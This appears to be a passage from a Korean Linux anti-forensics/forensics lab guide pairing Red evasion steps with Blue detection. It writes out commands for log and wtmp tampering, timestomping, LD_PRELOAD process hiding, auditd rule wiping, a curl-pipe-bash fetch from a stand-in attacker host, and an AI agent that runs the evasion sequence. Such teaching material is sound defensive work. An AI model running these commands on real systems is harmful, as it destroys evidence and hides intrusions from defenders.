# shred: /tmp/secret.txt: pass 3/4 (random)...
# shred: /tmp/secret.txt: pass 4/4 (000000)...

# 실제 inode 가 같은지 확인 (truncate vs shred)
ls -li /tmp/secret.txt 2>/dev/null   # shred 만으로는 파일 자체는 남음
shred -u /tmp/secret.txt              # -u 추가시 unlink 까지

# dd 로 직접 — random 1MB 단위
dd if=/dev/urandom of=/tmp/big bs=1M count=10
dd if=/dev/urandom of=/tmp/big bs=1M count=10 conv=notrunc   # 같은 파일에 덮어쓰기
sync && rm /tmp/big

# wipe — Gutmann 35-pass (HDD 깊이 삭제)
wipe -f -r /tmp/secret.txt
# -f 확인 없이 / -r 디렉터리 재귀

# SSD 한계 시연 (TRIM 없으면 wear leveling 으로 셀이 다른 곳에 남음)
sudo fstrim -v /                    # TRIM 직접 실행
# 출력: /: 12.4 GiB (13312000000 bytes) trimmed
```

탐지 (Blue): `dd_rescue` / PhotoRec 으로 free-space 카빙 → SSD + TRIM 직후 = 0 회복, HDD + shred 1-pass = 자기 잔류 (magnetic remanence) 로 일부 회복 가능 (NSA Class III).

#### 도구 2: touch / debugfs — 타임스탬프 조작 (Step 3)

```bash
# 기본 — atime / mtime 만 변경 가능
echo test > /tmp/tt
stat /tmp/tt | grep -E "(Access|Modify|Change|Birth)"
# Access: 2026-05-02 17:00:00.000
# Modify: 2026-05-02 17:00:00.000
# Change: 2026-05-02 17:00:00.000
# Birth : 2026-05-02 17:00:00.000

touch -t 202301010000 /tmp/tt
stat /tmp/tt | grep -E "(Access|Modify|Change|Birth)"
# Access: 2023-01-01 00:00:00.000
# Modify: 2023-01-01 00:00:00.000
# Change: 2026-05-02 17:00:05.000   ← inode 변경 시각 (조작 흔적!)
# Birth : 2026-05-02 17:00:00.000

# 참조 파일 기준 — 다른 파일과 동일 시각
touch -r /etc/passwd /tmp/malware
stat /tmp/malware | grep Modify

# 고급: ctime 도 조작 (debugfs 필요, root, 마운트된 파일시스템에서 위험)
sudo debugfs -w /dev/sda1 << 'EOF'
cd /tmp
mi tt
EOF
# inode 시각을 직접 16진 입력 → 거의 사용 안 함, ext4 저널 흔적 남음

# Birth time (crtime) — 가장 변조 어려움 (ext4 inode 추가 필드)
sudo debugfs -R 'stat <inode_num>' /dev/sda1

# Sleuth Kit 으로 mactime 분석 (Blue)
sudo fls -m / -r /dev/sda1 > /tmp/body.txt
mactime -b /tmp/body.txt -d 2026-05-02 | head -20
# Date,Size,Type,Mode,UID,GID,Meta,File
```

핵심 원리: `ctime > mtime` 인 파일은 timestomp 의 가장 강한 시그니처. AIDE/Tripwire baseline 은 `Birth time` 까지 hash 에 포함하므로 ext4 의 inode level 변조 (debugfs) 가 아닌 한 탐지된다.

#### 도구 3: utmpdump — 로그인 기록 조작 (Step 7)

```bash
# 현재 wtmp 텍스트 변환
sudo utmpdump /var/log/wtmp | head -10
# [2] [00000] [~~  ] [shutdown] [~           ] [3.13.0-43-generic ] [0.0.0.0        ] [Tue Mar 25 10:00:00 2026 KST]
# [7] [05428] [pts/0] [ccc     ] [pts/0       ] [10.20.30.201      ] [10.20.30.201    ] [Tue Mar 25 10:05:00 2026 KST]

# 텍스트 추출 → 편집 → 바이너리 재변환
sudo utmpdump /var/log/wtmp > /tmp/wtmp.txt
sed -i '/10.20.30.201/d' /tmp/wtmp.txt        # 공격자 IP 제거
sudo utmpdump -r /tmp/wtmp.txt > /var/log/wtmp_new
sudo cp /var/log/wtmp_new /var/log/wtmp        # 덮어쓰기 (위험)

# 확인
last -10                                       # IP 사라짐
last -f /var/log/wtmp_new -10

# wtmp + auth.log 교차 검증 (Blue)
sudo last | awk '{print $1, $5}' | sort -u > /tmp/login_users.txt
sudo grep "Accepted" /var/log/auth.log | awk '{print $9, $11}' | sort -u > /tmp/auth_users.txt
diff /tmp/login_users.txt /tmp/auth_users.txt
# 한쪽에만 있는 행 = 조작 시그니처

# Python utmp 직접 조작 (Cross-distro)
python3 << 'PY'
import struct
UTMP_FORMAT = '<hi32s4s32s256shhiii4i20s'
with open('/var/log/wtmp','rb') as f:
    while chunk := f.read(struct.calcsize(UTMP_FORMAT)):
        rec = struct.unpack(UTMP_FORMAT, chunk)
        print(rec[5].rstrip(b'\x00').decode('latin1'))   # 호스트
PY
```

원격 syslog (rsyslog TLS) 또는 SIEM 으로 wtmp 변경 이벤트가 즉시 송출되면 로컬 조작이 무의미.

#### 도구 4: AIDE / Tripwire — 파일 무결성 (Step 13 Blue)

```bash
# AIDE 초기화 — sha256 + permissions + atime/mtime/ctime/Birth
sudo cat /etc/aide/aide.conf | head -30
# Database location:
# database=file:/var/lib/aide/aide.db
# database_out=file:/var/lib/aide/aide.db.new

sudo aideinit                     # 약 30~120초 (디스크 크기에 비례)
ls -lh /var/lib/aide/aide.db

# 변경 감지 (수동)
sudo touch -t 202001010000 /etc/passwd     # 시뮬레이션
sudo aide --check
# 출력 예:
# AIDE found differences between database and filesystem!!
# changed entries:
#   f >.... mc.... : /etc/passwd
# Detailed information about changes:
# File: /etc/passwd
#   Mtime    : 2026-05-02 17:00:00              | 2020-01-01 00:00:00
#   Ctime    : 2026-05-02 17:00:00              | 2026-05-02 17:00:05

# 자동 cron — 하루 1회 baseline 갱신 + 체크 메일
sudo tee /etc/cron.daily/aide-check > /dev/null << 'CRON'
#!/bin/bash
/usr/sbin/aide --check 2>&1 | mail -s "AIDE report" security@corp.example
CRON
sudo chmod +x /etc/cron.daily/aide-check

# Tripwire (대안)
sudo twadmin --create-polfile /etc/tripwire/twpol.txt
sudo tripwire --init
sudo tripwire --check
```

AIDE/Tripwire 의 한계: baseline 자체가 변조되면 의미 없음 → `/var/lib/aide/aide.db` 를 read-only 매체 (USB) 또는 원격 read-only NFS 로 보호.

#### 도구 5: Volatility 3 — 메모리 포렌식 (Step 12 Blue)

```bash
# 메모리 덤프 (LiME LKM)
cd /tmp/lime/src && make
sudo insmod lime-$(uname -r).ko "path=/tmp/mem.lime format=lime"
ls -lh /tmp/mem.lime           # 16GB 시스템이면 ~16GB

# Volatility 3 분석
vol3 -f /tmp/mem.lime linux.pslist
# OFFSET (V)         PID    PPID    COMM
# 0xffff9b2c12345000 1234   1       systemd
# 0xffff9b2c45678000 5678   1234    bash
# 0xffff9b2c89abc000 9876   5678    [kworker/0:1]   ← 의심 (kthread 가 user proc 의 자식?)

vol3 -f /tmp/mem.lime linux.bash      # bash 명령 history (메모리에서 직접)
vol3 -f /tmp/mem.lime linux.lsmod    # 로드된 커널 모듈
vol3 -f /tmp/mem.lime linux.check_modules    # /proc 와 /sys 일치성

# Fileless 탐지 — memfd / [deleted] 매핑
vol3 -f /tmp/mem.lime linux.proc.Maps | grep -E "(deleted|memfd)"
# 5678   /memfd:ghost (deleted)   ← memfd_create 사용 흔적

# AVML — Microsoft 의 memory acquisition (LiME 대안)
git clone https://github.com/microsoft/avml /tmp/avml
cd /tmp/avml && cargo build --release
sudo ./target/release/avml /tmp/mem.avml
```

회피 (Red): LiME 자체가 LKM 으로 sysmon 의 `module_load` 이벤트를 발생 → Red 가 LKM 로딩을 차단하면 AVML 도 fail. **회피 한계**: cold boot attack (전원 차단 후 RAM 직접 읽기) 은 회피 불가.

#### 도구 6: auditd — 시스템 감사 (Step 9)

```bash
# 룰 작성 — 모든 execve + 파일 변경 감사
sudo tee /etc/audit/rules.d/audit.rules > /dev/null << 'RULES'
-a always,exit -F arch=b64 -S execve -k exec
-w /var/log -p wa -k log_tamper
-w /etc/passwd -p wa -k passwd_change
-w /var/log/wtmp -p wa -k login_record
RULES

sudo augenrules --load
sudo auditctl -l
# -a always,exit -F arch=b64 -S execve -F key=exec
# -w /var/log -p wa -k log_tamper
# -w /etc/passwd -p wa -k passwd_change
# -w /var/log/wtmp -p wa -k login_record

# 즉시 감사 로그 확인
sudo tail -3 /var/log/audit/audit.log
# type=SYSCALL msg=audit(1746176400.000:1234): arch=c000003e syscall=59 success=yes
# type=EXECVE msg=audit(1746176400.000:1234): argc=2 a0="ls" a1="-la"

# 검색 — ausearch
sudo ausearch -k log_tamper --start today
sudo ausearch -k exec -ui 1000 --start recent | aureport --summary

# Immutable (재부팅 전까지 변경 불가)
sudo auditctl -e 2          # 0=off 1=on 2=immutable
sudo auditctl -D            # 시도 → "Operation not permitted"

# 회피 (Red) — auditctl -e 2 가 안 걸려있을 때만
sudo auditctl -D            # 모든 룰 삭제
sudo systemctl stop auditd  # 서비스 중지
sudo > /var/log/audit/audit.log    # truncate

# 원격 audit (audisp-remote) — 로컬 조작 무력화
sudo apt install -y audispd-plugins
sudo tee /etc/audit/plugins.d/au-remote.conf > /dev/null << 'CFG'
active = yes
direction = out
path = /sbin/audisp-remote
type = always
format = string
CFG
sudo tee /etc/audisp/audisp-remote.conf > /dev/null << 'CFG'
remote_server = siem.corp.example
port = 60
transport = tcp
CFG
```

Defender 우선순위: `auditctl -e 2` + `audisp-remote` 두 가지가 동시에 적용되어야 안전.

#### 도구 7: macchanger / proxychains4 — 네트워크 안티포렌식 (Step 11)

```bash
# 현재 MAC
ip link show eth0 | grep ether
# link/ether 00:0c:29:ab:cd:ef brd ff:ff:ff:ff:ff:ff

# 임의 MAC
sudo ip link set eth0 down
sudo macchanger -r eth0
# Current MAC:   00:0c:29:ab:cd:ef (VMware, Inc.)
# Permanent MAC: 00:0c:29:ab:cd:ef (VMware, Inc.)
# New MAC:       8e:d7:42:1f:9b:53 (unknown)
sudo ip link set eth0 up

# 특정 vendor (Apple) 으로 위장 — 회사 BYOD 인 척
sudo macchanger -A eth0
# 또는 직접: sudo ip link set eth0 address aa:bb:cc:dd:ee:ff

# 영구 — netplan
sudo tee /etc/netplan/99-mac.yaml > /dev/null << 'YAML'
network:
  version: 2
  ethernets:
    eth0:
      macaddress: "8e:d7:42:1f:9b:53"
YAML
sudo netplan apply

# proxychains4 + Tor
sudo systemctl start tor
ss -tlnp | grep 9050         # 127.0.0.1:9050 SOCKS

cat /etc/proxychains4.conf | grep -E "^socks"
# socks5 127.0.0.1 9050

proxychains4 curl -s https://check.torproject.org/api/ip
# {"IsTor":true,"IP":"185.220.101.34"}

# nmap 통한 익명 스캔 (느림, ICMP 안 됨)
proxychains4 nmap -sT -Pn -p 80,443 example.com

# 다단계 — 복수 SOCKS / HTTP
sudo tee -a /etc/proxychains4.conf << 'CFG'
[ProxyList]
socks5 127.0.0.1 9050
http   1.2.3.4 8080
socks4 5.6.7.8 1080
CFG
```

탐지 (Blue) 한계: TLS 내용은 가려도 NetFlow 의 `(srcIP, dstIP, port, bytes, time)` 메타데이터는 그대로 → JA3/JA3S TLS fingerprint 로 Tor 사용자 식별 가능.

#### 도구 8: libprocesshider — LD_PRELOAD 프로세스 은닉 (Step 8)

```bash
cd /tmp/lph
ls
# evil_script  Makefile  processhider.c  README.md

# evil_script 라는 이름의 프로세스만 숨김
cat processhider.c | head -30
# static const char* process_to_filter = "evil_script";

# 시스템 로딩
sudo cp libprocesshider.so /usr/local/lib/
sudo bash -c 'echo /usr/local/lib/libprocesshider.so >> /etc/ld.so.preload'
sudo ldconfig

# 위장 프로세스 시작
cp /bin/sleep /tmp/evil_script
/tmp/evil_script 3600 &
ps aux | grep evil_script        # ★ 출력에 안 보임
ls /proc | grep -v "[a-z]" | head    # PID 디렉터리는 존재

# 탐지 (Blue) — unhide
sudo unhide brute
# Found HIDDEN PID: 12345
sudo unhide proc
sudo unhide-tcp                   # 은닉된 socket
sudo unhide-linux sys             # syscall 비교 quick

# /proc 직접 비교 (가장 신뢰)
ls /proc | grep -E '^[0-9]+$' | while read p; do
  ps -p $p > /dev/null 2>&1 || echo "HIDDEN PID $p ($(cat /proc/$p/comm 2>/dev/null))"
done

# 정리
sudo rm /etc/ld.so.preload
sudo ldconfig
kill %1
```

이 PoC 는 user-space LD_PRELOAD 라 root unhide 로 즉시 탐지된다. **kernel-level rootkit** (Diamorphine 등) 은 unhide 도 우회 → 메모리 포렌식 (Volatility `linux.check_modules`) 만 신뢰 가능.

#### 도구 9: rsyslog TLS — Forensic Readiness 의 핵심 (Step 15)

```bash
# 송신측 (web/secu/attacker)
sudo apt install -y rsyslog-gnutls
sudo tee /etc/rsyslog.d/01-remote.conf > /dev/null << 'RSY'
$DefaultNetstreamDriver gtls
$DefaultNetstreamDriverCAFile /etc/ssl/certs/siem-ca.pem
$DefaultNetstreamDriverCertFile /etc/ssl/certs/web.pem
$DefaultNetstreamDriverKeyFile  /etc/ssl/private/web.key

*.* action(type="omfwd"
  Target="siem.corp.example" Port="6514" Protocol="tcp"
  StreamDriver="gtls" StreamDriverMode="1" StreamDriverAuthMode="x509/name")
RSY
sudo systemctl restart rsyslog

# 수신측 (siem)
sudo tee /etc/rsyslog.d/01-recv.conf > /dev/null << 'RCV'
$ModLoad imtcp
$InputTCPServerStreamDriverMode 1
$InputTCPServerStreamDriverAuthMode x509/name
$InputTCPServerStreamDriverPermittedPeer *.corp.example
$InputTCPServerRun 6514

template(name="RemoteFiles" type="list") {
  constant(value="/var/log/remote/")
  property(name="hostname")
  constant(value=".log")
}
*.* ?RemoteFiles
RCV
sudo systemctl restart rsyslog

# 검증
ls -la /var/log/remote/
# -rw-r----- 1 syslog adm 124K May  2 17:30 web.log
# -rw-r----- 1 syslog adm  87K May  2 17:30 attacker.log
```

원격 송신 후 로컬 `> /var/log/syslog` truncate 는 무의미 — siem 은 이미 받았다. 학생이 s4 의 `sed -i` 시뮬레이션 후 siem 의 `/var/log/remote/web.log` 에 원본이 살아있는지 확인하면 학습 효과 즉시 검증.

### 점검 / 공격 / 방어 흐름 (15 step + multi_task 통합)

#### Phase A — 사전 인벤토리 (정찰, s1)

```bash
# 시스템 baseline 측정
echo "=== Baseline Forensic Inventory ==="
echo "[Logs]"
ls -la /var/log/{auth,sys,wtmp,btmp,lastlog,audit/audit}.log 2>/dev/null
wc -l ~/.bash_history /var/log/auth.log /var/log/syslog 2>/dev/null
echo "[Auditd]"
sudo auditctl -l 2>/dev/null | wc -l
echo "[FIM]"
[ -f /var/lib/aide/aide.db ] && stat /var/lib/aide/aide.db | grep Modify
echo "[Remote logging]"
grep -E "(omfwd|@@)" /etc/rsyslog.* 2>/dev/null | head -3
```

이 출력을 commit 해두면 phase B 후 **달라진 것** 을 즉시 비교 가능 → 안티포렌식 효과 정량화.

#### Phase B — 공격자 흔적 은닉 시도 (s2 ~ s11)

```bash
# 1. 셸 히스토리 차단
unset HISTFILE; export HISTSIZE=0; set +o history
ln -sf /dev/null ~/.bash_history

# 2. timestomp — /tmp 의 악성 페이로드를 평범한 시각으로
echo "evil" > /tmp/payload.sh
touch -t 201501010800 /tmp/payload.sh
touch -r /etc/hostname /tmp/payload.sh    # 시스템 파일과 동일 시각

# 3. 로그 선택 삭제 — 자기 IP 만
sudo cp /var/log/auth.log /tmp/auth.bak
sudo sed -i '/10.20.30.201/d' /var/log/auth.log
diff /tmp/auth.bak /var/log/auth.log | wc -l

# 4. fileless 페이로드 — 메모리에서만 실행
curl -s http://attacker.local/p.sh | bash
# 또는 memfd_create (디스크 무흔적 + 자식 프로세스)
/tmp/memfd_demo

# 5. utmp/wtmp — 로그인 기록 제거
sudo utmpdump /var/log/wtmp > /tmp/wtmp.txt
sed -i '/10.20.30.201/d' /tmp/wtmp.txt
sudo utmpdump -r /tmp/wtmp.txt > /var/log/wtmp

# 6. 프로세스 은닉 — LD_PRELOAD
sudo cp /tmp/lph/libprocesshider.so /usr/local/lib/
sudo bash -c 'echo /usr/local/lib/libprocesshider.so > /etc/ld.so.preload'

# 7. 안전 삭제 — 도구·증거 모두 shred
shred -vfz -n 3 -u /tmp/payload.sh /tmp/wtmp.txt

# 8. auditd 회피 (immutable 안 걸려 있을 때)
sudo auditctl -D

# 9. 디스크 — 저널 무력화 (위험, 데모만)
sudo tune2fs -O ^has_journal /dev/sdb1     # 별도 디스크에서만

# 10. 네트워크 — MAC + Tor
sudo macchanger -r eth0
proxychains4 curl -s http://victim.example/admin
```

#### Phase C — 방어자 탐지 (s12 ~ s15, Blue)

```bash
# 1. 무결성 비교 — AIDE
sudo aide --check 2>&1 | tee /tmp/aide-result.txt | head -20
grep -c "^File:" /tmp/aide-result.txt    # 변경된 파일 수

# 2. ctime > mtime 시그니처
find / -type f -newer /tmp/aide-result.txt 2>/dev/null | head -10
sudo find /etc /var -mtime -1 -newermt '2 hours ago' 2>/dev/null | head -10

# 3. 원격 syslog 비교 — 로컬과 SIEM 의 라인 수
local_lines=$(wc -l < /var/log/auth.log)
remote_lines=$(ssh siem "wc -l < /var/log/remote/$(hostname).log" 2>/dev/null | awk '{print $1}')
echo "Local: $local_lines  Remote: $remote_lines  Diff: $((remote_lines - local_lines))"

# 4. 메모리 분석 — fileless / process hide 동시 검출
sudo insmod /tmp/lime/src/lime-$(uname -r).ko "path=/tmp/mem.lime format=lime"
vol3 -f /tmp/mem.lime linux.pslist > /tmp/vol-pslist.txt
ps aux > /tmp/ps-aux.txt
diff <(awk '{print $2}' /tmp/vol-pslist.txt | sort) <(awk '{print $2}' /tmp/ps-aux.txt | sort)
# 좌측에만 있는 PID = LD_PRELOAD 로 숨겨진 프로세스

# 5. unhide / chkrootkit
sudo unhide brute
sudo chkrootkit | grep -v "not infected"

# 6. wtmp ↔ auth.log 교차 검증
sudo last | awk '{print $5}' | sort -u > /tmp/wtmp_ips.txt
sudo grep "Accepted" /var/log/auth.log | awk '{print $11}' | sort -u > /tmp/auth_ips.txt
comm -23 /tmp/auth_ips.txt /tmp/wtmp_ips.txt  # auth 에만 있는 IP = wtmp 조작 흔적

# 7. NetFlow 메타데이터 — 암호화 회피 불가
sudo nfcapd -w -p 2055 -l /tmp/nfcap &
nfdump -R /tmp/nfcap -A srcip,dstip,proto,dstport -O bytes -c 20
# Tor 사용자도 destination IP 와 timing pattern 으로 식별
```

#### Phase D — 통합 시나리오 (s99 multi_task)

s1 → s2 → s3 → s4 → s5 를 Bastion 에이전트가 한 번에 계획·실행:

1. **plan**: "5 작업 순서 결정 — history 차단 먼저 (이후 명령 isolation), 그 다음 timestomp / log sed / fileless / final cleanup"
2. **execute**: 각 작업당 1 SubAgent shell 호출. exit_code 0 + verify regex 충족 확인.
3. **synthesize**: ATT&CK ID 5개 (T1070.003 / T1070.006 / T1070.002 / T1059 / T1070.004) + 각 작업의 detection-side 룰 명시.

학생은 multi-task 의 `bastion_prompt` 를 그대로 던지고 — 결과 5개의 `success_criteria` 가 모두 충족되었는지 한 번에 검증.

### 도구 비교표 — 안티포렌식 vs 포렌식

| 카테고리 | Red 도구 | Red 기법 한계 | Blue 도구 | Blue 우위 조건 |
|---------|---------|---------------|-----------|----------------|
| **로그 삭제** | sed -i, truncate, shred | 원격 syslog 송신 후엔 무의미 | rsyslog TLS, Splunk UF, fluentd | 즉시 송출 + read-only 매체 |
| **timestomp** | touch -t/-r | ctime, Birth time 추적 가능 | Sleuth Kit istat, AIDE | Birth time 까지 hash |
| **utmp/wtmp** | utmpdump -r | auth.log 와 cross-check | wtmp + auth.log diff | 다중 로그 source |
| **fileless** | curl\|bash, memfd | EDR 메모리 스캔, Sysmon EID 1 | Volatility, AVML | 즉시 메모리 덤프 |
| **secure delete** | shred, wipe, srm | SSD wear leveling, TRIM 전 | PhotoRec, dd_rescue | 디스크 즉시 이미징 (write blocker) |
| **process hide** | LD_PRELOAD, exec -a | unhide, /proc vs ps | unhide, Volatility check_modules | 메모리 포렌식 |
| **auditd 회피** | -D, stop, truncate | -e 2 immutable, audisp-remote | auditd immutable + 원격 | -e 2 사전 적용 |
| **disk anti-fx** | LUKS, TRIM, ^has_journal | cold boot, key in memory | hardware write blocker, dc3dd | 전원 유지 + 즉시 이미징 |
| **network anti-fx** | macchanger, Tor, VPN | NetFlow 메타데이터 회피 불가 | Zeek, JA3, NetFlow | 메타데이터 분석 |
| **memory hide** | rootkit + LD_PRELOAD | Volatility check_modules | LiME + Volatility | 즉시 dump |

### 도구 선택 매트릭스 — 시나리오별 권장

| 시나리오 | 우선 도구 | 이유 |
|---------|---------|------|
| "공격 후 5분 내 흔적 제거" | sed -i + shred + history -c + ln -s /dev/null | 빠르지만 syslog 원격이면 실패 |
| "장기 잠복 (APT)" | LOLBins + memfd + LD_PRELOAD + macchanger | 디스크 무흔적 유지 |
| "감사 비활성 (insider)" | auditctl -D + service auditd stop | -e 2 가 없을 때만 가능 |
| "포렌식 수사 대비 (defender)" | AIDE + auditd -e 2 + rsyslog TLS + LiME 사전 ready | 4 개를 동시 운영해야 안전 |
| "사고 발생 즉시 대응" | LiME → Volatility → dc3dd 디스크 이미지 → Sleuth Kit | 전원 유지 + 휘발성 우선 (RFC 3227) |
| "교육·연구 (윤리적)" | VM 스냅샷 + IRB 동의서 + RoE 명시 | 격리 환경 + 사후 복원 |

### Forensic Readiness 체크리스트 (s15 산출물)

학생이 s15 에서 `/tmp/forensic_readiness.txt` 에 작성하는 30+ 항목을 도구 매핑과 함께:

| 카테고리 | 항목 | 도구 / 명령 |
|---------|------|------------|
| Logs | 원격 syslog (TLS) | rsyslog-gnutls, fluentd |
| Logs | audit immutable | `auditctl -e 2` |
| Logs | 90일 retention | logrotate, S3 Glacier |
| FIM | baseline daily | AIDE cron, Tripwire |
| FIM | 외부 매체 보관 | USB read-only mount |
| Endpoint | EDR kernel telemetry | Sysmon-Linux, Falco |
| Endpoint | DEP/ASLR/CFI | sysctl kernel.randomize_va_space=2 |
| Network | full pcap capability | tcpdump rotate, Stenographer |
| Network | NetFlow | nfcapd / nfdump |
| Network | DNS query log | unbound-control |
| Forensic Tools | memory acquisition | LiME, AVML 사전 빌드 |
| Forensic Tools | disk imaging | dc3dd, FTK Imager Lite |
| Forensic Tools | analysis frameworks | Volatility 3, Autopsy, Sleuth Kit |
| Procedure | IR runbook | NIST SP 800-61 r2 기반 |
| Procedure | chain of custody | 서명·해시·시간 기록 양식 |
| Procedure | quarterly drill | mock IR + lessons learned |

### 학생 셀프 체크리스트 (각 step 완료 기준)

- [ ] s1: `find /var/log` + `last` + `stat` 출력 모두 보유, 주요 파일 5개 이상 인벤토리
- [ ] s2: `unset HISTFILE` 또는 `ln -sf /dev/null ~/.bash_history` 실행, auditd 한계 언급
- [ ] s3: `touch -t` 후 `stat` 비교, `ctime > mtime` 시그니처 설명
- [ ] s4: `sed -i /pattern/d` 실행, before/after `wc -l` 비교, rsyslog 원격 한계 언급
- [ ] s5: `curl|bash` + `python3 -c` + `/dev/shm` 3가지 이상 데모, LOLBins 개념
- [ ] s6: `shred -vfz -n 3` 실행, SSD wear leveling 한계, FDE 권장
- [ ] s7: `utmpdump` 변환 → 편집 → 역변환, auth.log 교차 검증 언급
- [ ] s8: LD_PRELOAD 또는 `exec -a` 데모, `/proc` vs `ps` 비교 탐지
- [ ] s9: `auditctl -l` + 회피 3가지, `-e 2` immutable 방어 언급
- [ ] s10: LUKS + ext4 저널 + TRIM 3가지, 전원 차단 의미 설명
- [ ] s11: `macchanger -r eth0` + Tor + NetFlow 한계 언급
- [ ] s12: Volatility `linux.pslist` + `linux.check_modules` 사용, LiME 또는 AVML 덤프
- [ ] s13: AIDE/Tripwire/Sleuth Kit 으로 s2~s11 의 흔적 탐지, 5개 이상 detection 룰
- [ ] s14: 실습 환경 정리 (VM 스냅샷 복원), RoE/IRB 윤리 항목 명시
- [ ] s15: `/tmp/forensic_readiness.txt` 파일에 5 카테고리 × 4+ 항목, 도구·명령 예시 포함
- [ ] s99: Bastion 가 5 작업을 plan→execute→synthesize, 5 ATT&CK ID + 각 detection 룰

### 추가 참조 자료

- **NIST SP 800-86** Guide to Integrating Forensic Techniques into IR
- **NIST SP 800-61 r2** Computer Security Incident Handling Guide
- **MITRE ATT&CK T1070** (Indicator Removal on Host) 전체 sub-techniques
- **MITRE ATT&CK T1497** (Virtualization/Sandbox Evasion)
- **RFC 3227** Guidelines for Evidence Collection and Archiving (휘발성 우선순위)
- **DoD 5220.22-M** 미 국방부 매체 정화 표준 (3-pass overwrite)
- **NSA/CSS Storage Device Sanitization Manual** Class I/II/III 분류
- **Volatility 3 docs**: https://volatility3.readthedocs.io/
- **Sleuth Kit Wiki**: https://wiki.sleuthkit.org/
- **AIDE manual**: https://aide.github.io/

위 매트릭스의 모든 명령은 격리된 VM (snapshot 사전 생성) 에서만 실행해야 한다. `auditctl -D`, `tune2fs -O ^has_journal`, `> /var/log/wtmp`, `ln -sf /dev/null ~/.bash_history` 는 운영 시스템에서 절대 실행 금지 — 복구 불가능한 로그 손실을 일으킨다.
